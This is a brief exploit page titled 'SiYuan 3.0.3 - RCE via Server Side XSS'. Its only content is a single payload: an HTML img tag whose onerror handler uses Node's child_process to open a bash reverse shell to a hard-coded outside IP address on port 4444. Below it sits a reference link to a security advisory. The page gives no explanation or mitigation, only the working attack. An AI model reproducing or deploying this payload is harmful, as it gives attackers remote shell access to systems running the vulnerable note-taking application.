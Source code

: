```yaml
---
sidebar_position: 1
title: SiYuan 3.0.3 - RCE via Server Side XSS
description: SiYuan 3.0.3 - RCE via Server Side XSS
sidebar_label: SiYuan 3.0.3 - RCE via Server Side XSS
---
```

# SiYuan 3.0.3 - RCE via Server Side XSS

```js
<img src="1" onerror="require('child_process').exec('bash -i >& /dev/tcp/24.144.86.165/4444 0>&1');"/>
```

## 参考

* [SiYuan 3.0.3 - RCE via Server Side XSS | Advisories | Fluid Attacks](https://fluidattacks.com/advisories/dezco/ "SiYuan 3.0.3 - RCE via Server Side XSS | Advisories | Fluid Attacks")